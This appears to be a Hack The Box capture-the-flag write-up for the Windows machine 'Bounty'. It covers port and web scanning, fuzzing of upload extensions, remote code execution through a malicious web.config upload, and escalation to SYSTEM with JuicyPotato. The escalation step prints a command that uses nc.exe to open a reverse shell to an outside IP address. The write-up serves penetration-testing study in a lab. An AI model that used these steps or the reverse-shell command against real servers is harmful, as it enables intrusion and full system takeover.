

# Bounty

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Easy |
| **Topics** | Microsoft IIS 7.5, File Extension Enumeration, File Upload Exploitation, JuicyPotato, SeImpersonate Privilege, Web.config Files RCE |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

All Ports

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -vvv 10.10.10.93 -oN AllPorts
```

Result:

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127
```

Full Scan

```bash
nmap -p 80 -sCV -Pn -n -vvv 10.10.10.93 -oN FullScan
```

Result:

```bash
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### **Nmap Http Scripts**

**Enumeration**:

```bash
nmap -p 80 --script http-enum* -n -oN WebNmapScan 10.10.10.93
```

Result (nothing relevant):

**Vulnerabilities**:

```bash
nmap -p 80 --script "http-vuln*" -n 10.10.10.93 -oN WebNmapScan2
```

Result (nothing relevant)

**Whatweb Scan**

```bash
whatweb -a 3 http://10.10.10.93
```

Result:

```bash
http://10.10.10.93 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/7.5], IP[10.10.10.93], Microsoft-IIS[7.5], Title[Bounty], X-Powered-By[ASP.NET]
```

> We can see that server is running IIS version 7.5
> 

Nikto:

```bash
nikto --host http://10.10.10.93
```

Result:

```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.93
+ Target Hostname:    10.10.10.93
+ Target Port:        80
+ Start Time:         2022-11-17 21:21:13 (GMT-5)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/7.5
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 2.0.50727
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST
```

No relevant results. 

**HTTP Web Server Enumeration**

After the initial enumeration we will see the port 80 open running IIS 7.5. 

Checkig the website we will find a simple image.



Then, after performing some fuzzing using dirbuster we will find additional directories:


Result:


This seems to be a website for upload files. This will be our point of entry. 

# Initial Access

After enumerating the directories and files, we proceed to check the URL: `http://10.10.10.93/UploadedFiles/`


Howeverm it looks like we don’t have permissions to list files. 

Now, let’s try with the URL: `http://10.10.10.93/transfer.aspx`


We can access this page. Based on the options, it looks like we can upload files to the server. 

Let’s try to upload a file with extension `php`

First, let’s create the file with a simple touch:


Upload the file from the browser: 


After clicking `Upload` we will see that server does not allows this type of file:


Let’s try now with a `JPG` file:


This time it allowed us to upload it successfully, this indicates that a whitelisting is being applied for uploading files. 

Now, let’s find out if we can access the file in the directory `/UploadedFiles` by specifying the filename previously uploaded. 

URL should be: `http://10.10.10.93/UploadedFiles/test.jpg`


Success! We can access the file. 

### Intruder - File Extension Fuzzing

Next step is to determine which file extensions are we allowed to upload. For this task, we can “brute force” the extensions based on the response code using `Burpsuite.` 

To do this, let’s try to upload an invalid file and capture the request using Burpsuite:


We can see the field `filename="test.txt"`, using Intruder we can set the extension `.txt` as a wildcard.

**Positions configuration:**

Next, proceed to do Right click and Send it to Intruder. We will see payload with some fields already set as wildcards, however, let’s clear all the field by clicking ‘`Clear`’.  


Next, look for the field `filename="test.txt"` and select only the extension, then, click on `Add`buttom. 


Result should look like this: 


**Payloads configuration:**

Next, go to “Payloads” tab in Burpsuite and clear all the extensions and proceed to add the following extensions


**Options configuration:** 

Clear all the grep matches and only add <`File uploaded successfully`>, this will help us to identify the extensions that are valid.


Finally, go back to “Positions” tab and click on `Start Attack`

Once the attack is completed, we will the extension `.config` as a valid extension to upload files. 


A CONFIG file is a configuration file used by various applications. It contains plain text parameters that define settings or preferences for building or running a program. CONFIG files are often referenced by software development programs to configure applications.

Based on this information, we can do a simple search on internet about malicious config files:


We will see the following Github repo containing a reverse shell with .config extension:


Noticed that file is named as ‘web.config’, this important if we want our target webserver to interpret the file. 

Resource: 

[Offensive-Reverse-Shell-Cheat-Sheet/web.config at master · d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config)

Let’s download the file and replace the last line with a Based64 Powershell code (generated from revshells). 

Result should look like this: 


Next step will be to upload the file and then try to access it: 


Success! We should receive the connection from the server


# Privilege Escalation

### Enumerate privileges assigned to the current user


We will see the privilege <`SeImpersonatePrivilege`> which is vulnerable to `JuicyPotato`.

### Exploit:

Proceed to download the binary and `transfer` it to the target machine. Also transfers the binary `nc.exe`. 

### Execution:

```cpp
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.8 443"
```

Screenshot: (note: we can execute it even from Powershell)


Done, we will get a shell as `NT AUTHORITY/SYSTEM`

[Owned Bounty from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/142)